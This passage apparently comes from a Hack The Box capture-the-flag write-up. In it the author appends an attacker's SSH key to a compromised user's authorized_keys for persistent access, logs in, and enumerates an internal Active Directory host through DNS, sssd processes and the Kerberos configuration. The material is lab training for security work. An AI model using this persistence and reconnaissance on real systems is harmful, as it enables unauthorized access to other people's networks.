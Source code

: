 We can try to add our ssh key here on the authorized file and see if we can reach it.

```bash
webster@webserver:~$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEBrS9Ew9Gm/1YkHvy2r2MIUPY2/t1m78Ms2jypk1y9m kali@kali" >> ~/.ssh/authorized_keys
<m78Ms2jypk1y9m kali@kali" >> ~/.ssh/authorized_keys
```

```bash
$ ssh -i ~/.ssh/kali-rsa webster@$TARGET           
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
Linux webserver 5.10.0-17-amd64 #1 SMP Debian 5.10.136-1 (2022-08-13) x86_64
...
Last login: Mon Aug 26 09:14:28 2024 from hope.windcorp.htb
webster@webserver:~$ 
```

From the login msg it seems that there is another host somewhere here

> Last login: Mon Aug 26 09:14:28 2024 from `hope.windcorp.htb`

```bash
webster@webserver:~$ dig hope.windcorp.htb +short
192.168.0.2
10.10.11.179
```

- 192.168.0.2 - hope
- 192.168.0.100 - webserver

We see that [sssd](https://sssd.io/) is running on the host. This is normally used to connect Linux to Windows Active Direcotry.

```bash
webster@webserver:~$ ps auxww | grep sss
root         333  0.0  2.5  97200 23816 ?        Ss   04:48   0:00 /usr/sbin/sssd -i --logger=files
root         424  0.0  2.8 116792 26616 ?        S    04:48   0:00 /usr/libexec/sssd/sssd_be --domain windcorp.htb --uid 0 --gid 0 --logger=files
root         425  0.0  5.3 111912 50340 ?        S    04:48   0:00 /usr/libexec/sssd/sssd_nss --uid 0 --gid 0 --logger=files
root         426  0.0  2.4  85160 22648 ?        S    04:48   0:00 /usr/libexec/sssd/sssd_pam --uid 0 --gid 0 --logger=files
```

An interesting file is `/etc/krb5.conf`.

```bash
webster@webserver:~$ cat /etc/krb5.conf 
[libdefaults]
        default_realm = WINDCORP.HTB

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true

...

# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        WINDCORP.HTB = {
                kdc = hope.windcorp.htb
                admin_server = hope.windcorp.com
                default_domain = windcorp.htb
        }

[domain_realm]
```